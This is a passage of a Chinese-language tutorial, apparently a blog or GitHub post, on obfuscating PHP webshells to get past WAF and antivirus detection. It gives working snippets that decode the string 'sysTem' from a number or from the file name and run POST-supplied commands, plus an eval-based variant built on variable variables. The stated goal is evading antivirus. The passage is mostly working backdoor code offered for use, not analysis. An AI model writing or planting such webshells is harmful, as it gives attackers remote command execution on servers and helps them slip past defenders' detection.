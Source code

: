 加密手法可以看我写的博客： [https://blog.zgsec.cn/archives/147.html](https://blog.zgsec.cn/archives/147.html)

## 2# 字符串混淆处理绕过

### 2.1 自定义函数混淆字符串

通过对上面所说两部分敏感内容的拼接、混淆以及变换，来绕过 WAF 的检测逻辑，如下：

```plain
function confusion($a){
    $s = ['A','a','b', 'y', 's', 's', 'T', 'e', 'a', 'm'];
    $tmp = "";
    while ($a>10) {
        $tmp .= $s[$a%10];
        $a = $a/10;
    }
    return $tmp.$s[$a];
}
$f = confusion(976534);         //sysTem（高危函数）
$f($_POST['aabyss']);           //sysTem($_POST['aabyss']);
```

### 2.2 自定义函数 + 文件名混淆

同样，可以配合文件名玩出一些花活，我们建一个 PHP 名字为 `976534.php`：

```plain
function confusion($a){
    $s = ['A','a','b', 'y', 's', 's', 'T', 'e', 'a', 'm'];
    $tmp = "";
    while ($a>10) {
        $tmp .= $s[$a%10];
        $a = $a/10;
    }
    return $tmp.$s[$a];
}

$f = confusion(intval(substr(__FILE__, -10, 6)));   //sysTem（高危函数）
//__FILE__为 976534.php
//substr(__FILE__, -10, 6) 即从文件名中提取出 976534
//confusion(intval(976534)) 即输出了 sysTem（高危函数），拼接即可
$f($_POST['aabyss']);        //sysTem($_POST['aabyss']);
```

首先先读取文件名，从 `976534.php` 文件名中提取出 `976534` ，然后带入函数中就成功返还 `sysTem` 高危函数了，可以配合其他姿势一起使用，达成免杀效果

### 2.3 特殊字符串

主要是通过一些特殊的字符串，来干扰到杀软的正则判断并执行恶意代码（各种回车、换行、null 和空白字符等）

```plain
$f = 'hello';
$$f = $_POST['aabyss'];
eval(``.$hello);
```

